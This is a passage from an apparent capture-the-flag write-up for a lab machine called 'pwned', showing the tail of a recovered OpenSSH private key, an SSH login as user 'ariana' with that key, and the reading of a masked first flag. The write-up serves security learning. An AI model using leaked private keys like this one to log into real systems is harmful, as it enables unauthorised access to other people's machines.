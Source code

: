 ```bash
dDITwzMCKEdC/PZoz+JVcl+ANJJ/zMUGo+CMUJ2O0BuA+AtWzCGCdCAP/5PXeIdEjXBDpY
AwmdMgi2UHjdy0gXtiEeKhZnWr8lyX29Dc5+Y4X1VHIc/TfUvKaz+vst3sWQA56JqizdXj
HLJrvM+b+8NKuyL970tlzHP3O3XmQwAAAAMBAAEAAAGACQ18FLvGrGKw0A9C2MFFyGlUxr
r9Pctqnw5OawXP94oaVYUb/fTfFopMq68zLtdLwoA9Y3Jj/7ZgzXgZxUu0e2VxpfgkgF58
y8QHhyZi0j3nug5nPUGhhpgK8aUF1H/8DvyPeWnnpB7OQ47Sbt7IUXiAO/1xfDa6RNnL4u
QnZWb+SnMiURe+BlE2TeG8mnoqyoU4Ru00wOc2++IXc9bDXHqk5L9kU071mex99701utIW
VRoyPDP0F+BDsE6zDwIvfJZxY2nVAZkdxZ+lit5XCSUuNr6zZWBBu9yAwVBaeuqGeZtiFN
W02Xd7eJt3dnFH+hdy5B9dD+jTmRsMkwjeE4vLLaSToVUVl8qWQy2vD6NdS3bdyTXWQWoU
1da3c1FYajXHvQlra6yUjALVLVK8ex4xNlrG86zFRfsc1h2CjqjRqrkt0zJr+Sl3bGk+v6
1DOp1QYfdD1r1IhFpxRlTt32DFcfzBs+tIfreoNSakDLSFBK/G0gQ7acfH4uM9XbBRAAAA
wQC1LMyX0BKA/X0EWZZWjDtbNoS72sTlruffheQ9AiaT+fmbbAwwh2bMOuT5OOZXEH4bQi
B7H5D6uAwhbVTtBLBrOc5xKOOKTcUabEpXJjif+WSK3T1Sd00hJUnNsesIM+GgdDhjXbfx
WY9c2ADpYcD/1g+J5RRHBFr3qdxMPi0zeDZE9052VnJ+WdYzK/5O3TT+8Bi7xVCAZUuQ1K
EcP3XLUrGVM6Usls4DEMJnd1blXAIcwQkAqGqwAHHuxgBIq64AAADBAN0/SEFZ9dGAn0tA
Qsi44wFrozyYmr5OcOd6JtK9UFVqYCgpzfxwDnC+5il1jXgocsf8iFEgBLIvmmtc7dDZKK
mCup9kY+fhR8wDaTgohGPWC6gO/obPD5DE7Omzrel56DaPwB7kdgxQH4aKy9rnjkgwlMa0
hPAK+PN4NfLCDZbnPbhXRSYD+91b4PFPgfSXR06nVCKQ7KR0/2mtD7UR07n/sg2YsMeCzv
m9kzzd64fbqGKEsRAUQJOCcgmKG2Zq3wAAAMEA0rRybJr61RaHlPJMTdjPanh/guzWhM/C
b0HDZLGU9lSEFMMAI+NPWlv9ydQcth6PJRr/w+0t4IVSKClLRBhbUJnB8kCjMKu56RVMkm
j6dQj+JUdPf4pvoUsfymhT98BhF9gUB2K+B/7srQ5NU2yNOV4e9uDmieH6jFY8hRo7RRCo
N71H6gMon74vcdSYpg3EbqocEeUN4ZOq23Bc5R64TLu2mnOrHvOlcMzUq9ydAAufgHSsbY
GxY4+eGHY4WJUdAAAADHJvb3RAQW5ubHlubgECAwQFBg==
-----END OPENSSH PRIVATE KEY-----
```

> We have a `ssh` key and probably a user named `ariana`!
{: .prompt-info }

Lets check if we can login via `ssh` using this information.
```bash
$ ssh -i id_rsa ariana@192.168.182.95 
Linux pwned 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
ariana@pwned:~$ id
uid=1000(ariana) gid=1000(ariana) groups=1000(ariana),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```

> Yes we have `ssh` access!
{: .prompt-info }

---

# post exploitation
## get first flag
```bash
ariana@pwned:~$ ls
ariana-personal.diary  local.txt  user1.txt
ariana@pwned:~$ cat local.txt 
5******************************3
```
